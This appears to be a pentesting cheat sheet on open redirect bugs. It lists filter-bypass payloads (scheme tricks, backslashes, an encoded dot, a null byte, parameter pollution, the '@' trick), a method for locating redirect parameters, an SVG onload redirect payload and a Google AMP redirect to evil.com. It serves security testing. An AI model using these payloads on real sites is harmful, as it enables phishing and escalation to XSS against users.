 +++
title = 'Open Redirect'
+++

Often a bug that brings impact when chained.

Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```

Using "//" to bypass "http" blacklisted keyword

```
//google.com
```

Using `/\/` to bypass `//` blacklisted keyword

```
\/\/google.com/
/\/google.com/
```

Using "/\" to bypass:

```
/\google.com
```

Using "%E3%80%82" to bypass "." blacklisted character

```
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```
//google%00.com
```

Using parameter pollution

```
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```
http://www.theirsite.com@yoursite.com/
```

## Helpdesk trick

Sometimes a website will redirect only to a helpdesk subdomain, this behavior is interesting because it is possible to create a custom subdomain a place a script that will redirect to an evil website. Making it a open redirect.

## Open Redirect farming

1. If the Applictaion have a user Sign-In/Sign-Up feature, then register a user and log in as the user.
2. Go to your user profile page , for example : samplesite.me/accounts/profile
3. Copy the profile page's URL
4. Logout and Clear all the cookies and go to the homepage of the site.
5. Paste the Copied Profile URL on the address bar
6. If the site prompts for a login , check the address bar , you may find the login page with a redirect parameter like the following
- https://samplesite.me/login?next=accounts/profile
7. Exploit it or escalate to XSS

## Open Redirect uploading svg files

```
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.REMOVETHISlocation='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

## Known Redirects

https://google.com/amp/s/evil.com

# Tools

- [Oralyzer](https://github.com/r0075h3ll/Oralyzer)
